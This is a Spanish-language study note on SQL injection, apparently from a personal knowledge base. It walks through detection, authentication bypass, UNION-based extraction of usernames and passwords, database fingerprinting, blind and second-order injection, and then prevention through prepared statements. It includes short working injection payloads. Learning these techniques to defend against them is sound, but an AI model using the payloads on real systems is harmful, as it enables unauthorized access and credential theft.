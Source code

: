 # Inyecciones SQLi (SQL Injection)

## ¿Qué es la inyección SQL?
La inyección [SQLi](SQLi.md) es una vulnerabilidad que permite a un atacante manipular las consultas SQL de una aplicación para acceder, modificar o eliminar datos en una base de datos. Se produce cuando la entrada del usuario no se valida ni se sanitiza correctamente, permitiendo la ejecución de código SQL malicioso.

---

## Cómo detectar vulnerabilidades de inyección SQL
Algunos métodos para identificar si una aplicación es vulnerable a SQLi incluyen:
- **Pruebas manuales:** Insertar caracteres especiales (`'`, `"`, `;`, `--`, `#`, etc.) en los campos de entrada y observar errores.
- **Errores de la base de datos:** Mensajes como `syntax error` pueden indicar una vulnerabilidad.
- **Automatización:** Uso de herramientas como **[[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Git-Profile/PayloadsAllTheThings/SQL Injection/SQLmap|SQLmap]]** para detectar y explotar SQLi.

---

## Recuperar datos ocultos
A veces, los datos de la base de datos están ocultos, pero la inyección SQL puede revelar información oculta al modificar consultas, por ejemplo:
```sql
SELECT * FROM productos WHERE id = '1' OR '1'='1';
```

---

## Subvertir la lógica de la aplicación
Los atacantes pueden modificar consultas para eludir la autenticación:
```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND clave = '' OR '1'='1';
```
Esto permite iniciar sesión sin conocer la contraseña real.

---

## Inyección SQL UNION attacks
Permite unir múltiples consultas SQL para extraer datos de otras tablas.

### Determinar el número de columnas requeridas
```sql
ORDER BY nº; -- Probamos incrementando 'n' hasta encontrar un error
```

### Encontrar columnas con un tipo de datos útil
```sql
UNION SELECT NULL, NULL, 'texto';
```

### Uso de un ataque UNION de inyección SQL para recuperar datos interesantes
```sql
UNION SELECT nombre, clave FROM usuarios;
```

### Recuperar múltiples valores dentro de una sola columna
```sql
UNION SELECT nombre || ' - ' || clave FROM usuarios;
```

---

## Examinar la base de datos
Los atacantes pueden obtener información sobre la estructura de la base de datos.

### Identificar la base de datos en uso
```sql
SELECT @@version; -- Para MySQL
SELECT version(); -- Para PostgreSQL
SELECT banner FROM v$version; -- Para Oracle
```

### Listar tablas y columnas
```sql
SELECT table_name FROM information_schema.tables;
SELECT column_name FROM information_schema.columns WHERE table_name='usuarios';
```

---

## Inyección SQL ciega
Cuando la aplicación no devuelve errores directos, se pueden usar técnicas como:

### Explotar la inyección SQL ciega desencadenando respuestas condicionales
```sql
AND 1=1 -- [Devuelve verdadero]
AND 1=2 -- [Devuelve falso]
```

### Inyección SQL basada en errores
Forzar la aplicación a mostrar errores:
```sql
AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT);
```

### Explotar la inyección SQL ciega desencadenando retrasos de tiempo
```sql
IF(1=1, SLEEP(5), 0);
```

### Explotar la inyección SQL ciega utilizando técnicas fuera de banda (OAST)
Enviar consultas a servidores externos para filtrar datos.

---

## Inyección SQL en diferentes contextos
- **En URLs:** `https://victima.com/perfil?id=1' OR '1'='1`.
- **En formularios:** Campos de login vulnerables.
- **En encabezados HTTP:** Manipulación de cookies o User-Agent.

---

## Inyección SQL de segundo orden
Los datos maliciosos se almacenan en la base de datos y ejecutan la inyección en otro contexto.

Ejemplo: Un usuario malicioso registra su nombre como:
```sql
admin' --
```
Cuando un administrador lo consulta en otra página, la inyección se ejecuta.

---

## 🛡️ Cómo prevenir la inyección SQL
✅ **Usar consultas preparadas** con `?` o `bind_param()`:
```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```
✅ **Validar y sanitizar entradas del usuario.**
✅ **Principio de menor privilegio:** No usar cuentas con permisos excesivos.
✅ **Firewalls de aplicaciones web (WAF).**

---
**Conclusión:** La inyección SQL sigue siendo una de las vulnerabilidades más peligrosas, pero con buenas prácticas y medidas de seguridad adecuadas, se puede mitigar el riesgo de ataque.
